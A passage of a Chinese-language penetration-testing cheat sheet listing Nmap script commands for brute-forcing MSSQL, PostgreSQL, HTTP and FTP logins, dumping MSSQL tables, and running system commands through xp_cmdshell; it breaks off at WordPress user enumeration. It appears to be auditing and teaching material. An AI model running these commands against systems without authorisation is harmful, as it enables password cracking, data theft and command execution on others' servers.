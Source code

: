 

### 审计Mssql密码

#### 检查空密码

`nmap -p 1433 --script ms-sql-empty-password 10.20.40.96`

#### 暴力破解

`nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/user.txt,passdb=/root/pass.txt 10.20.40.96`



### 获取Mssql数据库数据

`nmap -p 1433 ms-sql-tables --script-args mssql.username=sa,mssql.Password=sa 10.20.40.96`



### Mssql执行系统命令

`nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mysql.password=sa,ms-sql-xp-cmdshell.cmd="whoami" 10.20.40.96`



### 审计Postgresql密码

`nmap -p 5432 --script pgsql-brute 10.20.40.96`



## Nmap在渗透测试中的应用

### 审计HTTP身份验证

`nmap --script http-brute -p 80 10.20.40.95`

### 审计FTP服务器

检测匿名用户：

`nmap --script ftp-anon 10.20.40.95`

默认字典爆破：

`nmap --script ftp-brute -p 21 10.20.40.95`

自定义爆破字典：

`nmap --script ftp-brute --script-args userdb=/root/user.txt,passwd=/root/passwd.txt -p 21 10.20.40.95`



### WordPress程序口令破解

枚举用户名：
